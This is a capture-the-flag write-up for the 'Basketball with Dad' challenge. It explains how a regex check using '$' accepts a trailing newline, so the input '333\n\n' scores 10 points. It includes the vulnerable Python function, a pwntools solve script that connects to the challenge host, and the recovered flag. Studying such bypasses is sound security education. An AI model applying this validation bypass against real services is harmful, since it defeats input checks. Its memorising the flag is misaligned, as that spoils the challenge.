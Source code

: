 ## Basketball with Dad

### Challenge

The game allows us to take 3 shots, where each shot can be either worth 1, 2 or 3 points. The input format is a series of numbers (max 3). Ex: "111" or "3" or "323" or ...


Our input is passed to this function, which calculates the state/score of the game after the player has entered the numbers
```py
def player_turn(state, inp):
	if inp and inp[-1] == '\n':
		inp = inp[:-1]
	
	if re.match("^[1-3]{1,3}$", inp):
		for c in inp:
			value = {
				"1": 1,
				"2": 2,
				"3": 3
			}.get(c, 1)
			state += value
	else:
		return -1
	
	return state
```

The input is ran through a regex match to see if it is in the format `^[1-3]{1,3}$`. 
Before the input is checked with the regex, the input is truncted by 1 character if the last character is a newline. If the input is for example "232\n". The input becomes "232". 
The problem is if we input 2 newlines after the numbers. Then an input like this: "232\n\n" will become "232\n". This doesn't seem like a big deal, but the `re.match()` method will still match if the input ends with a newline. 

Our goal is to score 10 on our first turn. This will force a win because Dad can only play a maximum of 9 points. Therefore we can simply play 1 on our last turn and win the game.
To accomplish this, we can input "333\n\n". 

After the check below, the input will look like this: "333\n".
```py
if inp and inp[-1] == '\n':
		inp = inp[:-1]
```

The input "333\n" will match this pattern and enter the if test.
```py
if re.match("^[1-3]{1,3}$", inp):
```

The input is then looped through and added to the state/score variable. When this for loop loops over "333\n", it will find the string "3" in the dictionary "value" and extract the value 3 from that key. But when the for loop reaches the newline character, it won't find it in the dictionary, and it will therefore use its default value: 1. The sum will therefore be `3+3+3+1 = 10`
```py
for c in inp:
    value = {
        "1": 1,
        "2": 2,
        "3": 3
    }.get(c, 1)
    state += value
```


```
$ python3 solve.py
[+] Opening connection to game.ept.gg on port 1337: Done
[*] Switching to interactive mode
The total score is now 20

You win! Here are my dads final words to you: EPT{l3t_m3_ad0pt_y0u_pl34s3}
```


### Solve script
```py
from pwn import *

io = remote("game.ept.gg", 1337, ssl=True)

io.recvuntil(b"> ")

io.send(b"333\x0a\x0a")

io.recvuntil(b"> ")
io.send(b"1")

io.interactive()
```